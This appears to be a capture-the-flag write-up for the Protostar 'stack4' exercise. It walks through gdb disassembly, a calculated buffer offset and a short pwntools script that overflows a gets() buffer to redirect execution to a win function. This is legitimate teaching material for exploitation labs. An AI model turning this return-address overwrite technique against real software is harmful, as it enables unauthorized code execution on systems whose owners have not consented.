 # stack4
## Tools
- gdb (gef)
## Disassembly
```shell
Dump of assembler code for function main:
   0x08048408 <+0>:	push   ebp
   0x08048409 <+1>:	mov    ebp,esp
   0x0804840b <+3>:	and    esp,0xfffffff0
   0x0804840e <+6>:	sub    esp,0x50
   0x08048411 <+9>:	lea    eax,[esp+0x10]
   0x08048415 <+13>:	mov    DWORD PTR [esp],eax
   0x08048418 <+16>:	call   0x804830c <gets@plt>
   0x0804841d <+21>:	leave
   0x0804841e <+22>:	ret
End of assembler dump.
```
The only thing happening in the main function is a gets call. After that, the function is returning to the previous scope of the function that called it. Since we have an entrypoint to the variable [esp+0x10] on the stack, we have to somehow utilize a stack overflow to call the win function. The only option at our disposal is to overwrite the instruction pointer (in this case eip).

The memory location a function returns to once ret is called is the instruction pointer (eip) right before it jumps to the new scope, which is pushed to the stack. Since a stack is a FILO structure, it follows that the last thing on the stack when a function reaches the ret call is said memory location. Redirecting to the win function at the end of main requires us to overwrite that return address, modifying it to a place in memory we want to go. In this case, that's the win function
```shell
Dump of assembler code for function win:
   0x080483f4 <+0>:	push   ebp
   0x080483f5 <+1>:	mov    ebp,esp
   0x080483f7 <+3>:	sub    esp,0x18
   0x080483fa <+6>:	mov    DWORD PTR [esp],0x80484e0
   0x08048401 <+13>:	call   0x804832c <puts@plt>
   0x08048406 <+18>:	leave
   0x08048407 <+19>:	ret
End of assembler dump.
```
As we can see, the win function's memory location is 0x080483f4. So when we overflow the stack, the last bytes we want should be the value 0x080483f4 (reversed since little endian). But to overflow the stack with surgical precision, we need the address of the variable to overwrite.

If we set up a breakpoint in the main function after all the stack management is finished (0x08048411), we can find the new location of the base pointer with gdb's "info registers":
```shell
[...]
$ebp   : 0xffffd1f8  →  0x00000000
$esp   : 0xffffd1a0  →  0xf7ffcff4  →  0x00033f14
[...]
```
Our entrypoint is located at esp+0x10 and our target is at ebp+0x04. We can use gdb to do some hex arithmetic for us:
```shell
p $ebp + 0x04 - $esp - 0x10
0x4c
```
If the above is confusing, try to accept that the stack grows upside down in relation to the program memory. It's a difficult thing to accept. 
0x4c is 76 in decimal, which means we'll have to compose a string that's 76 + 4 characters long, and the last characters will need to be
0x080483f4 (reversed because little endian). Let's get cracking!

## Method
Much like [stack3](https://github.com/aldamd/CTF/tree/main/writeups/protostar/stack3), we're cooking this up with pwntools because I'm tired of being misunderstood by UTF-8.
```python3
from pwn import process
p = process("./stack4")
p.sendline(b"A"*76 + b"\xf4\x83\x04\x08")
p.interactive()

>>
code flow successfully changed
```

Easy as that!
